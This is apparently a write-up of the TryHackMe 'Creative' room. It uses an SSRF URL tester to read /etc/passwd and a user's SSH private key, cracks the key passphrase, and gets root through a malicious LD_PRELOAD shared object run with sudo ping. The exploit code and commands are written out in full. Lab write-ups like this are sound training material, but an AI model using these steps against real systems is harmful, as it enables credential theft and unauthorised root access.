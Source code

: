 ```yaml
---
title: Creative
published: 2024-12-24
description: 'Submit both the user and root flags to complete the room.'
image: ''
tags: ['Subdomain' ,'SSH' ,'URL', 'Hash']
category: 'THM'
draft: false 
lang: ''
---
```


## Enumeration
```sh
➜ nmap -sCV 10.10.36.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 11:03 EST
Nmap scan report for creative.thm (10.10.36.137)
Host is up (0.11s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
> - When trying to access Port 80 ( http://creative.thm )
![Creative Page](./Creative-Images/Creative.png)

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   creative.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )

```sh
➜  ~ gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://creative.thm --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://creative.thm
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.creative.thm Status: 200 [Size: 591]
```
> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →
![Beta Page](./Creative-Images/beta.png)

In browser we see the webpage for Beta URL Tester with an input box and submit button

> - Enter the url http://localhost —( localhost is creative.thm the target) into the input box. we get the HTML of the creative.thm website:
![Localhost](./Creative-Images/localhost.png)

lets try http://localhost:port to see if there are any other HTTP services that are not accessible from outside?

We going to use Burps intruder to scan through the top 50 ports to see if any the ports are accessible.

google 50 common ports https://www.geeksforgeeks.org/50-common-ports-you-should-know/

- make a text file with the top 50 tcp ports

> - Now open Burp Suite, turn on foxy proxy — firefox extension — set to port 8080 and 127.0.0.1
> - Turn on intercept in burp and capture the request http://localhost:port
> - Now right click request and send to intruder
> - Change url=http://localhost:§80§/ at the bottom of the request. The § can be added from the left side.
![Burp](./Creative-Images/burp.png)
> - Click on payloads and load thetext file created for top 50 ports — top_50_tcp_ports. Then start attack
> - Can see from the attack that port 1337 has a different length to all others and when clicked on the response it shows details — the directory listing for the target. So port 1337 is the port we can use to find more info about the target.
![1337](./Creative-Images/1337.png)

## SSH

**STAP 1**
- Now in the browser disable foxy proxy and on the webpage for beta.creative.thm input ```http://localhost:1337/etc/passwd``` and submit For show ```Users``` in THis Server :
![Passwd](./Creative-Images/passwd.png)

**STEP 2**
- Now search for the user saad id_rsa private ssh key. Input ```http://localhost:1337/home/saad/.ssh/id_rsa``` and submit:
![id_rsa](./Creative-Images/id_rsa.png)

**STEP 3**
> - Now to find the passphrase so we can ssh into the target
> - change the permissions of id_rsa to be more secure
> - Locate ssh2john — found its in the location ```/usr/share/john/ssh2john.py```
> - Run that ```ssh2john``` with python and save to file password.hash
> - ```python3 /usr/share/john/ssh2john.py id_rsa > password.hash```

**STEP 4**
- So now ssh into the target with the cmd ```ssh -i id_rsa saad@10.10.59.12```

```sh
➜ ssh -i id_rsa saad@10.10.36.137          
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Dec 2024 03:18:44 PM UTC

  System load:  0.0               Processes:             120
  Usage of /:   57.5% of 8.02GB   Users logged in:       1
  Memory usage: 54%               IPv4 address for eth0: 10.10.36.137
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

58 updates can be applied immediately.
33 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Dec 24 14:56:51 2024 from 10.21.102.133
saad@m4lware:~$ id
uid=1000(saad) gid=1000(saad) groups=1000(saad)
```
> - can see file .bash_history. Lets check that out
```sh
saad@m4lware:~$ cat .bash_history 
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:M*************************" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
ls -al
```
## Privilege Escalation

 - First thing well try is sudo -l with the password found
 ```sh
 saad@m4lware:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
    env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

 - success found user saad can run /usr/bin/ping as root
 - Also can see ```env_keep+=LD_PRELOAD```

> - Search in Google *Linux Privilege Escalation using LD_Preload* 
> - [I Found This Article](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) 
> - Let’s generate a C-program file inside /tmp directory.

```sh
saad@m4lware:~$ cd /tmp
saad@m4lware:/tmp$ nano shell.c
```
> - Put This Shell :
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
> - Now Put This Command :
```sh
saad@m4lware:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 | setgid(0);
      | ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 | setuid(0);
      | ^~~~~~
saad@m4lware:/tmp$ ls -al shell.so
-rwxrwxr-x 1 saad saad 14760 Dec 24 16:32 shell.so
saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

**GOOD LUCK**